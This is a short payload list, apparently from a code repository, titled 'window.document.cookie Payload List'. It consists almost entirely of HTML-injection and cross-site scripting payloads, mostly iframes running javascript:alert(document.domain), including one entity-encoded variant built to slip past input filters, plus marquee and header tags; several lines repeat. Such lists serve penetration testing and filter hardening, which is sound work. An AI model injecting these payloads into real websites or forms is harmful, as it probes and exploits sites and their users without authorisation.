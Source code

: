 #### window.document.cookie Payload List :












<iframe src="http://google.com/"></iframe><marquee><h1>nil2</h1></marquee>
<h1><IFRAME SRC="javascript:alert(document.domain);"></IFRAME>">1723</h1>
<iframe src="javascript:alert(document.domain);"></iframe><marquee><h1>nilydv</h1></marquee>


<h1><IFRAME SRC="javascript:alert(document.domain);"></IFRAME>">1723</h1>

<iframe src=javascript&colon;alert&lpar;document&period;domain&rpar;>
<h1><IFRAME SRC="javascript:alert(document.domain);"></IFRAME>">1723</h1>

<iframe src="http://google.com/"></iframe><marquee><h1>nil2</h1></marquee>













